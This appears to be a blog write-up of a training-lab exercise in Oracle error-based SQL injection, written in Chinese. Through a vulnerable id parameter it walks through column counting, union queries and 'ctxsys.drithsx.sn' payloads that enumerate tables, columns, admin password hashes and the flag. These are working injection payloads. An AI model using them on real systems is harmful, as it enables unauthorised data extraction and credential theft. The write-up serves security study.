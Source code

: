 ```yaml
---
title: oracle注入报错注入
date: 2021-08-21
---
```




#### oracle注入报错注入原理：

同MYSQL数据库差不多，但是一些语法不同，相比其他数据库，oracle数据库的数据类型更加严谨，由于过度严谨，所以，我们用显错注入，会比较麻烦，于是，我们利用报错的方法，忽视数据类型，直接获取数据`CTXSYS.DRITHSX.SN(user,())`

#### oracle注入报错注入 基本的语法：

`select from all_tables` 查询出所有的表

`select from user_tables` 查询出当前用户的表

`select from all_tab_columns` 查询出所有的字段

`select from user_tab_columns` 查询出当前用户的字段

`select * from v$version` 查版本

mssql系统默认库、表 `sysobjects`、`syscolumns` 、`sysdatabases`

sql系统默认库、表 `information_schema.tables` 、`information_schema.columns`

oracel 系统默认库、表 `user_table dual`
Dual是一个实表（也有人说它是虚表），如果你直接查询它，它只显示一个X，列名为DUMMY

#### dual 虚表

因为语法要求在查询时一定要加表名
例如：
`select 1,2,3,4,5 from dual`这样就不会报错，用于把语法补全
oracle弱化了库的概念，一个用户可以简单理解为一个库

#### 本节难点：

如何实现limit 功能？
oracle 中利用`rownum=1`可以取一行数据

当`rownum<3`可以取两条

当 `rownum<5`可以取四条
rownum 的值会根据查询结果进行改变
语句如下可以完成limit功能
`select username from(select rownum r, username from all users) where r=1`
子查询返回一个结果集，结果集也可以看作是一个表，其中‘r’表示一个别名，在这一句中就是rownum的别名

进入靶场
发现id传参，and 1=1，网页显示正常

![01](oracle/01.png)



`and 1=2` 报错，表示与数据库有交互

![02](oracle/02.png)
查字段，
`order by 4` 显示正常

![03](oracle/03.png)

`order by 5` 报错，有4个字段

![04](oracle/04.png)

联合查询,因为oracle数据库对数据类型要求很严格，所以使用语句
`union all select null,null,null,null from dual` 

![05](oracle/05.png)
下面使用oracle方法

#### 优点：

可以不考虑类型

#### 原理：

在数据库中对查询相应的关键词，然后查询失败，爆出数据

#### 函数：`ctxsys.drithsx.sn(user,(select banner from v$version where rownum=1))`

这个函数就是一个查询，而子查询优先进行，所以当查询函数查不到的时候，就会报错，但是我们真正要的数据在子查询里已经查过了，通过报错显示出来
查表名
`and 1=ctxsys.drithsx.sn(1,(select table_name from user_tables where rownum=1))`

![06](oracle/06.png)
得到表名NEWS
查其他表
`and 1=ctxsys.drithsx.sn(1,(select table_name from user_tables where rownum=1 and table_name <>'NEWS'))`

![07](oracle/07.png)

得到ADMIN表
查字段
`and 1=ctxsys.drithsx.sn(1,(select column_name from user_tab_columns where table_name='ADMIN' and rownum=1))`

![08](oracle/08.png)
得到ID 字段
查其他字段
`and 1=ctxsys.drithsx.sn(1,(select column_name from user_tab_columns where  rownum=1 and table_name ='ADMIN' and column_name<>'ID'))`

![09](oracle/09.png)
得到字段UNAME
再查其他字段
`and 1=ctxsys.drithsx.sn(1,(select column_name from user_tab_columns where  rownum=1 and table_name ='ADMIN' and column_name<>'ID' and  column_name<>'UNAME'))`

![10](oracle/10.png)
得到字段UPASS
查内容
`and 1=ctxsys.drithsx.sn(1,(select UPASS from ADMIN where rownum=1 ))`

![11](oracle/11.png)
得到数据：`f583aea84b6ded258f529205eb6d56a7`
继续查其他数据
`and 1=ctxsys.drithsx.sn(1,(select UPASS from ADMIN where rownum=1 and UPASS <> 'f583aea84b6ded258f529205eb6d56a7'))`

![12](oracle/12.png)
试过发现这个也不是flag，继续
`and 1=ctxsys.drithsx.sn(1,(select UPASS from ADMIN where rownum=1 and UPASS <> 'f583aea84b6ded258f529205eb6d56a7' and UPASS <>  '9e8e7f6953dd11ceccc6ce655e03e070'))`

![13](oracle/13.png)
得到flag：
`2a61f8bcfe7535eadcfa69eb4406ceb9`
输入通关

